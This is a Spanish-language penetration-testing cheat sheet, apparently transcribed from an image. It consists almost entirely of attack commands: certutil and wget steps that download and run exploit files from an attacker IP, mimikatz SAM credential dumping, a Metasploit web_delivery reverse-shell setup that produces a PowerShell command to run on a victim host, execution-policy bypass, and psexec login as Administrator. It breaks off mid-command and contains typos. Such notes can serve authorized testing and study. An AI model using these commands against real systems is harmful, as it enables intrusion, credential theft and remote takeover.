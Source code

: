 Transferir Archivos sin Meterpreter
python3 -m http.server 80
Abrir la IP donde esta el servidor IP:80

En windows -- certutil -urlcache -f http://IP/exploit.exe exploit.exe
.\exploit.exe
lsadump::sam -En mimikats

En Linux - wget http://IP/exploit.sh

Convertir una shell en una shell interactiva
cat /etc/shells -Se enumeran las shells disponibles ya que podria no tener Bash
python --version -Para verificar si esta instaldo python
python -c 'import pty: pty.spawn("/bin/bash")' -Para obtener shell Bash a traves de Python
perl --help -Verificar quye Perl este instalado
perl -e 'exec "/bin/bash";'
ruby: exec "/bin/bash"
perl: exec "/bin/bash";
/bin/bash -i
export PATH=/usr/local/sbin:/ust/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
env 
export TERM=xterm
export SHELL=bash
env

ls -alps
top
wget

ESCALADA DE PRIVILEGIOS EN WINDOWS

search web_delivery
set target PSH\ (Binary) -Powershell es la target
set payload windows/shell/reverse_tcp
set PSH EncodedCommand false -Para encodear el script que ejecutara en powershell
set LHOST eth1
exploit
-Esto nos entrega un comando de Powershell, el cual al ejecutar en el host victimase crea una shell en msf, la cual se puede upgradear con session -u 1 o con:
search shell_to_meterpreter
set SESSION 1
show advanced -Ver opciones adicionales
set WIN TRANSFER VBS
exploit

migrate 3626 -Se migra a explorer.exe, para tener estabilidad
cd /ruta/Desktop -Debemos tener el PrivescCheck.ps1 "https://github.com/itm4n/PrivescCheck/blob/master/PrivescCheck.ps1" - Donde se muestran varias opciones dependiendo del acceso que se tenga en la maquina victima
powershell -ep bypass .\script.ps1 -Saltar la politica de ejecucion de comandos
-En este caso se lograron encontrar contraseñas guardadas de administrador
psexec.py Administrator@IP
whoami /priv

msf> search windows/smb/psexec
set PAYLOAD 	 
